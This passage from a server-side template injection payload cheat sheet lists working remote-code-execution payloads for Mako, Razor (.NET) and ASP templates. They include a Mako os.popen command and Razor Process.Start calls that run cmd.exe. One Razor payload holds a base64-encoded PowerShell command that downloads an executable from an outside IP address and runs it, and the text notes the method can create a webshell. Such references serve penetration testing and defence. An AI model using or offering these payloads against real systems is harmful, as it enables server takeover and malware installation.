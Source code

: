 ```
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```
```
**More information**

- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako]]

### Other Python

![[../../images/image (2) (1).png|]]

*[[https://miro.medium.com/v2/resize:fit:640/format:webp/1*3RO051EgizbEer-mdHD8Kg.jpeg|https://miro.medium.com/v2/resize:fit:640/format:webp/1\*3RO051EgizbEer\-mdHD8Kg.jpeg]]*


![[../../images/image (3) (1).png|]]

*[[https://miro.medium.com/v2/resize:fit:640/format:webp/1*GY1Tij_oecuDt4EqINNAwg.jpeg|https://miro.medium.com/v2/resize:fit:640/format:webp/1\*GY1Tij\_oecuDt4EqINNAwg.jpeg]]*


- More info in [[https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756|https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756]]

### Razor (.Net)

- `@(2+2) <= Success`
- `@() <= Success`
- `@("{{code}}") <= Success`
- `@ <=Success`
- `@{} <= ERROR!`
- `@{ <= ERRROR!`
- `@(1+2)`
- `@( //C#Code )`
- `@System.Diagnostics.Process.Start("cmd.exe","/c echo RCE > C:/Windows/Tasks/test.txt");`
- `@System.Diagnostics.Process.Start("cmd.exe","/c powershell.exe -enc IABpAHcAcgAgAC0AdQByAGkAIABoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyAC4AMQAxADEALwB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlACAALQBPAHUAdABGAGkAbABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFQAYQBzAGsAcwBcAHQAZQBzAHQAbQBlAHQANgA0AC4AZQB4AGUAOwAgAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABUAGEAcwBrAHMAXAB0AGUAcwB0AG0AZQB0ADYANAAuAGUAeABlAA==");`

The .NET `System.Diagnostics.Process.Start` method can be used to start any process on the server and thus create a webshell. You can find a vulnerable webapp example in [[https://github.com/cnotin/RazorVulnerableApp|https://github.com/cnotin/RazorVulnerableApp]]

**More information**

- [https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/]()
- [[https://www.schtech.co.uk/razor-pages-ssti-rce/|https://www.schtech.co.uk/razor-pages-ssti-rce/]]

### ASP

- `<%= 7*7 %>` = 49
- `<%= "foo" %>` = foo
- `<%= foo %>` = Nothing
```